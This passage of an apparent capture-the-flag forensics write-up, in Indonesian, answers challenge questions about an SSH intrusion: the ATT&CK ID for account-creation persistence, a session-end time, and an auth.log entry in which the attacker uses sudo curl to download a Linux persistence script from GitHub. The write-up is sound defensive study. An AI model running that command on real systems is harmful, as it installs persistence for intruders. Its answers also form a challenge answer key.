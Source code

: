 #### `cyberjunkie`

### 6. What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

MITRE ATT&CK adalah framework yang mendokumentasikan tentang taktik serangan keamanan siber.
#### T1136
```
Adversaries may create an account to maintain access to victim systems. With a sufficient level of access, creating such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.
```

Mendeskripsikan tentang attacker yang membuat kredensial baru untuk mengakses sistem tanpa perlu membuat backdoor atau semacamnya.

##### .001
```
Adversaries may create a local account to maintain access to victim systems. Local accounts are those configured by an organization for use by users, remote support, services, or for administration on a single system or service.
```

Sub dari [T1136](#t1136) yang menjelaskan kalau yang dibuat oleh attacker adalah local account, jadi hanya akun yang bisa digunakan di satu sistem.

#### `T1136.001`

### 7. What time did the attacker's first SSH session end according to auth.log?

Ini sama seperti [soal nomor 3](#3-identify-the-timestamp-when-the-attacker-logged-in-manually-to-the-server-to-carry-out-their-objectives-the-login-time-will-be-different-than-the-authentication-time-and-can-be-found-in-the-wtmp-artifact) di mana jawaban yang saya coba salah semua, seperti:
1. 2025-03-06 06:37:24
2. 2025-03-06 13:37:24

#### Update
Setelah mengerjakan [soal nomor 3](#3-identify-the-timestamp-when-the-attacker-logged-in-manually-to-the-server-to-carry-out-their-objectives-the-login-time-will-be-different-than-the-authentication-time-and-can-be-found-in-the-wtmp-artifact) dan melihat dari `utmpdump`, ternyata hanya salah tahun, sehingga yang benar adalah `2024-03-06 06:37:24`.

#### `2024-03-06 06:37:24`

### 8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

```
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```
